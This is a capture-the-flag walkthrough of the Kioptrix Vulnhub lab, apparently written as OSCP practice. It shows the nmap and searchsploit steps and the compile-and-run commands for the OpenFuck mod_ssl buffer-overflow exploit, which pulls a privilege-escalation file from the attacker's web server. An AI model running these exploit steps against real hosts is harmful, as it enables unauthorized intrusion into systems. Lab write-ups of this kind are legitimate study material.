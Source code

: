```yaml
---
published: true
---
```

Vulnhub virtual machine; On the path to OSCP this box offered Apache/OpenSSL vulnerability which led to a custom version of the exploit and an environmental problem and solution. 


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Initial setup:

This boot-2-root box is on the legacy side of things and there are a few things that need to be accomplished before you are able to boot this image (virtual box)


1. add Kioptix vmdk harddrive to storage as IDE (this box does NOT like SATA - will kernel panic)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363040523_image.png)



2. disable audio

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363076710_image.png)

3. change network adapter to PCnet-PCI II (AM79C970A) && Attached to Adapter

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363130573_image.png)



4. disable usb

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363207273_image.png)


With this configuration you should be able to properly boot the box.



----------

# Enumeration

Searching for target:

    netdiscover -r 192.168.56.0/24

*target looks to be 192.168.56.103*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363591282_image.png)


Perform NMAP scan:

    nmap -sC -sV -oA nmap/kio1 192.168.56.103

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363637960_image.png)


*interesting to note that we have quite a few ports to examine.*

Since this is an older box lets search for any open vulnerabilites pertaining to the Apache and its mod_ssl 2.8.4 OpenSSL.

searchsploit

    searchsploit mod_ssl

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550364708694_image.png)


interesting candidate: *Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow* 

Based off the CVE: 2002-0082
There is a vulnerability pertaining to session cache code that fails to initialize memory using a special function that allows for a buffer overflow to execute arbitrary code. 

source: https://nvd.nist.gov/vuln/detail/CVE-2002-0082

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365003778_image.png)


# Exploit
Copy the exploit locally:

    searchsploit -m exploits/unix/remote/764.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365139174_image.png)


view source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365290795_image.png)


*search for any random shell code and/if replace if needed.*

compile source code:

    gcc -o exploit 764.c -lcrypto

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365592122_image.png)


*looks to be missing some dependencies.*

correction: above exploit requires updating and can be correctly found at this repository. 

    git clone https://github.com/heltonWernik/OpenFuck.git

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550367827580_image.png)


download the ptrace-kmod.c && start python SimpleHTTPServer in directory of file.

edit the external link at line 671


![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369200447_image.png)


install dependencies:

    apt-get install libssl-dev

compile:

    gcc -o OpenFuck OpenFuck.c -lcrypto

Run exploit:

    ./OpenFuck

*Search for which service you are attempting to exploit. Use the following syntax to continue.*

    ./OpenFuck 0x6b \[Target Ip\] [port] -c 40

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368047575_image.png)


Running exploit against box:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368200111_image.png)

    ./OpenFuck 0x6a 192.168.56.103 443 -c 50

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369571756_image.png)


*hung awaiting the race condition of the exploit. Good to see the exploit be pulled from the SimpleHTTPServer.*

# Root - Plot Shift

change of plans: 
Reverted back to website which I know it wont be able to be reached. At that point I performed the steps manually to change the term and get a bash shell.


    TERM=xterm; export TERM=xterm; exec bash -i
![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550370436781_image.png)


bring me the root!
